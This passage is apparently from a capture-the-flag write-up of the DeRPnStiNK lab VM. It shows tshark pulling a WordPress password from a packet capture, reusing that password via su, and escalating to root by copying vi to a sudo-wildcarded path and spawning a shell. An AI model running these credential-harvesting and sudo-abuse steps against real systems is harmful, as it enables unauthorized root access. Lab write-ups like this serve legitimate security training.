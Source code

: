 tshark -r derpissues.pcap -2 -Y http -V  | grep -i pass
Running as user "root" and group "root". This could be dangerous.
...                         
    [Request URI [truncated]: http://derpnstink.local/weblog/wp-admin/load-scripts.php?c=0&load%5B%5D=hoverIntent,common,admin-bar,wp-ajax-response,password-strength-meter,underscore,wp-util,user-profile,svg-painter,heartbeat,wp-a&load%5B%5D=u]                                     
    Form item: "pass1" = "derpderpderpderpderpderpderp"
        Key: pass1
    Form item: "pass1-text" = "derpderpderpderpderpderpderp"
        Key: pass1-text
    Form item: "pass2" = "derpderpderpderpderpderpderp"
        Key: pass2
...
```

### MrDerp

Since password auth is disallowed in `sshd_config`, I just did a `su - mrderp` from my shell as `stinky`. I used the password from the packet capture, and was authenticated.

```
stinky@DeRPnStiNK:~$ su - mrderp
Password:
mrderp@DeRPnStiNK:~$ ls                                                              
binaries  Desktop  Documents  Downloads                                                                                                                                          
mrderp@DeRPnStiNK:~$ ls Documents/                                              
mrderp@DeRPnStiNK:~$ ls Desktop/                                                                                                                                                 
helpdesk.log                                                                                                                                                                     
mrderp@DeRPnStiNK:~$ cat Desktop/helpdesk.log                   
From: Help Desk <helpdesk@derpnstink.local>
Date: Thu, Aug 23, 2017 at 1:29 PM
Subject: sudoers ISSUE=242 PROJ=26
...
```

Based on the hint in the helpdesk log, I went straight to looking at `sudo`.

```
mrderp@DeRPnStiNK:~/Desktop$ sudo -l
[sudo] password for mrderp:
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
...
mrderp@DeRPnStiNK:~$ mkdir -p binaries
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ cp /usr/bin/vi derpy
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy
#from vim:
<esc>
:shell
# and now I 'm root
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
```

### Root

```